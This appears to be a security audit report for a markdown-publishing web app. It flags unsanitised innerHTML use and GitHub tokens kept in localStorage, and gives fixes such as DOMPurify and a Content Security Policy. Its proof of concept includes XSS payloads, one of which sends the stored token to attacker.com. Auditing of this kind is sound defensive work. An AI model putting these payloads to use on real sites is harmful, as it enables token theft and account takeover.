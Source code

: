 **Issue**: Multiple instances of `innerHTML` usage without proper sanitization throughout the application.

**Vulnerable Code Locations**:
```javascript
// src/main.js:43 - User-controlled content in UI generation
app.innerHTML = `<div class="container">...${this.getLoginUI()}...`;

// src/main.js:671 - Direct markdown-to-HTML conversion
preview.innerHTML = this.markdownToHTML(this.content);

// src/main.js:257+ - Multiple template literals with user input
mainContent.innerHTML = `<div class="token-input-section">...`;
```

**Attack Vector**: 
- Malicious markdown content can inject script tags
- User-generated content not properly escaped
- Event handlers can be injected via HTML attributes

**Proof of Concept**:
```markdown
# Test
<img src="x" onerror="alert('XSS: ' + document.cookie)">
<script>fetch('https://attacker.com/steal?token=' + localStorage.getItem('github_token'))</script>
```

**Impact**: 
- Token theft via localStorage access
- Account takeover
- Malicious site generation
- User session hijacking

**Recommendation**: 
- Implement DOMPurify for HTML sanitization
- Use textContent instead of innerHTML where possible
- Add Content Security Policy headers
- Escape all user input before rendering

### 2. **Insecure Token Storage** ⚠️ **CRITICAL**

**Severity**: 9.0/10 | **CVSS**: 8.1 (High)

**Issue**: GitHub tokens stored in localStorage are accessible to any JavaScript code, including XSS attacks.

**Vulnerable Code**:
```javascript
// src/main.js:190 - Token storage
localStorage.setItem('github_token', token);

// src/main.js:1150+ - Token retrieval throughout app
const token = localStorage.getItem('github_token');
```

**Attack Vector**:
- XSS attacks can steal tokens via `localStorage.getItem('github_token')`
- Malicious browser extensions can access localStorage
- Cross-site scripting can export all stored tokens
